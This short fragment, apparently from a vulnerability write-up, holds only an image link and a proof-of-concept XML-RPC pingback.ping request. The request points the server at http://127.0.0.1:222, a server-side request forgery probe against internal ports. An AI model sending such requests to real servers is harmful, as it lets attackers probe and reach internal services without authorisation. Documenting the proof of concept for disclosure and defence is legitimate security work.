

POC：

```php
<?xml version="1.0" encoding="utf-8"?>
<methodCall> 
  <methodName>pingback.ping</methodName>
  <params>
    <param>
      <value>
        <string>http://127.0.0.1:222</string>
      </value>
    </param>
    <param>
      <value>
        <string>l1nk3r</string>
      </value>
    </param>
  </params>
</methodCall>
```

